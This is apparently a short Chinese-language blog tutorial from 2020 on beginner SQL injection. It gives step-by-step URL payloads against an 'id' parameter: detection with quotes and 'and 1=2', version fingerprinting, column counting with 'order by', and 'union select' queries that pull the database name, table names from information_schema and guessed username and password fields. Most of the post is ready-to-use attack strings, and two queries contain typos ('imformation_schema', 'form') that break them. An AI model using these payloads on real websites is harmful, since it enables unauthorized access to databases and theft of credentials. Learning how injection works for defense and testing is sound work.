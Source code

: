 ```yaml
---
title: sql注入初段
date: 2020-04-11 22:39:10
tags: sql注入
---
```


# sql注入初级阶段
## 一、判断是否存在注入
```
http://xxxx/index.php?id=1'

http://xxxx/index.php?id=1 and 1=2
```
页面错误则存在.相当于sql语句的`select * from 表名 where id =1 and 1=1; `

## 二、数据库爆破

判断数据库类型以及版本
```
http://xxxx/index.php?id=1 and ord(mid(version(),1,1))>51 
```
## 三、字段爆破
猜测数据注入的位置
```
http://xxxx/index.php?id=1 order by 一个数
```
如果这个数刚好返回正确的页面，说明字段就是这个数

## 四、数据库数据表爆破
构造联合查询语句(union select)
```
http://xxxx/index.php?id=1 and 1=2 union select 1,2
```
如果是返回的数字2，这个数字指的是我们可以把联合查询的对应位置替换为想要查询的关键字

这时，查询数据库版本
```
http://xxxx/index.php?id=1 and 1=2 union select 1,version()
```
## 五、用户名、密码爆破
使用第四步，查看数据库名称，构造如下
```
http://xxxx/index.php?id=1 and 1=2 union select 1,database()
```
同理，查看当前表名
```
http://xxxx/index.php?id=1 and 1=2 union select 1,table_name from imformation_schema.tables where table_schema='数据库名'

```
同理，猜测字段并得到相应的结果
```
http://xxxx/index.php?id=1 and 1=2 union select 1,猜测的字段名 form 表名
```
